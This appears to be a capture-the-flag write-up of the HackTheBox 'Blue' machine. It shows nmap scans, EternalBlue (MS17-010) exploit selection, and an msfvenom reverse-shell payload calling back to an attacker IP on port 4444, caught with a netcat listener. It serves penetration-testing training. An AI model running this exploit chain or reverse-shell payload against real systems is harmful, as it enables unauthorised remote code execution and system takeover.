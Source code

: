 ```yaml
---
title: HackTheBox - Blue
date: 2020-09-20 19:01:00 +/- 0000
categories: [HackTheBox,Easy]
tags: [blue,smb,msfvenom,eternalblue]
author: Connor Weeks-Pearson
image: /assets/img/Icons/Blue/Blue.png
---
```


Blue is the third hackthebox machine i have completed but is the first time without using metasploit. This machine exploits SMB using the famous SMB MS17-010 vulnerability Eternal Blue. 

## Summary

- Port Scan using Nmap
- Searchsploit MS17-010 non-metasploit exploits
- msfvenom to create a non-meterpreter shell.
- netcat listener

---

***Machine IP: 10.10.10.40***

## RECON AND INFORMATION GATHERING
### Port Scan with Nmap

As always, we first begin with a simple nmap port scan to discover any open ports on this machine.

`nmap -n -sV -p- -T 5 -Pn 10.10.10.40`

<pre>
PORT      STATE    SERVICE      VERSION
135/tcp   open     msrpc        Microsoft Windows RPC
139/tcp   open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open     msrpc        Microsoft Windows RPC
49153/tcp open     msrpc        Microsoft Windows RPC
49154/tcp open     msrpc        Microsoft Windows RPC
49155/tcp open     msrpc        Microsoft Windows RPC
49156/tcp open     msrpc        Microsoft Windows RPC
49157/tcp open     msrpc        Microsoft Windows RPC
52097/tcp filtered unknown
</pre>

we can see ports 135, 139 and 445 are open. As well as 6 ports for msrpc.

#### SMB

As we have SMB on port 445, lets enumerate further.

`nmap -n -A -p 445 -T 5 -Pn 10.10.10.40`

<pre>
PORT    STATE SERVICE      VERSION
445/tcp open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -13m39s, deviation: 34m35s, median: 6m17s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-09-14T21:54:17+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-09-14T20:54:16
|_  start_date: 2020-09-14T20:16:58
</pre>

Knowing this could be exploitable, lets run Nmaps SMB vulnerability scanner against the port 445.

`nmap --script=*vuln-smb* -p 445 10.10.10.40`

<pre>

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
 </pre>

This machine is vulnerable to Eternal Blue, which means remote code execution!

## Exploiting without Metasploit

Lets use searchsploit to find find a non-metasploit exploit in the database.

`searchsploit --id MS17-010`

<pre>
kali@kali:~$ searchsploit --id ms17-010
------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                    |  EDB-ID
------------------------------------------------------------------------------------------------------------------ ---------------------------------
Microsoft Windows - 'EternalRomance'/'EternalSynergy'/'EternalChampion' SMB Remote Code Execution (Metasploit) (M | 43970
Microsoft Windows - SMB Remote Code Execution Scanner (MS17-010) (Metasploit)                                     | 41891
Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)                                  | 42031
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)              | 42315
Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB Remote Code Execution (MS17-010)                        | 42030
Microsoft Windows Server 2008 R2 (x64) - 'SrvOs2FeaToNt' SMB Remote Code Execution (MS17-010)                     | 41987
------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

</pre>

The machine is running Windows 7, so lets go ahead and use #42315 by cloning it to our working directory using `searchsploit -m 42315` and then examining the source code. 

The source code requires three things:

1. Download mysmb.py
2. Using MSFVenom to generate a reverse shell payload. This is indicated by:   
    <pre> Note: there are many methods to get shell over SMB admin session. a simple method to get shell (but easily to be detected by AV) is executing binary generated by "msfvenom -f exe-service ..."`</pre>
3. If possible, provide login credentials and point to the msfvenom payload.

### Preparing

First thing to do is clone the github repositoryand then rename it:

`wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py mv 42315.py.1 mysmb.py`

Next, create the msfvenom reverse shell executable payload.

<pre>
msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.27 LPORT=4444 > eternal-blue.exe
</pre>

Lastly, as seen in our Nmap scan earlier, SMB supports the user 'guest', so enter the guest credentials into the exploit

![credentials](/assets/img/Icons/Blue/guest.png)

Also we'll add the executable's location to the exploit file to send it and execute it.

![](/assets/img/Icons/Blue/location.png)

And lastly, I will set up a netcat listener on my host machine.

`nc -nvlp 4444`

### Exploiting

Run the python script `python 42315.py 10.10.10.40` and check the netcat listener.

![netcat](/assets/img/Icons/Blue/whoami.png)

We have shell with system access!

### User

![user](/assets/img/Icons/Blue/user.png)

### Root

![root](/assets/img/Icons/Blue/root.png)

## End Notes

I did have some issues when exploiting this machine, but this was due to my own silly errors, such as missing out an ' in service_exec() and putting the file location as /root/.

This is the first machine i have completed without using metasploit, due to the OSCP not allowing it, likewise msfvenom was used due to meterpretor not being allowed either.
